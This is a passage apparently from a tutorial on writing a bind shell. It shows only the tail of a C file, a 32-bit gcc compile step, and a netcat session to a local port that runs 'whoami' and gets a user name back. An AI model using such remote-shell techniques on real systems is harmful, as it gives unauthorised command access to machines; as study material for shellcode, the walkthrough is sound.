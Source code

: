 ```
 
     return 0;
}
```

Compiling it with:

    $ gcc -m32 test.c -o test

Now running it:

    $ ./test


And connecting from another terminal:

```
$ nc 127.1.1.1 8888
whoami 
valle
```
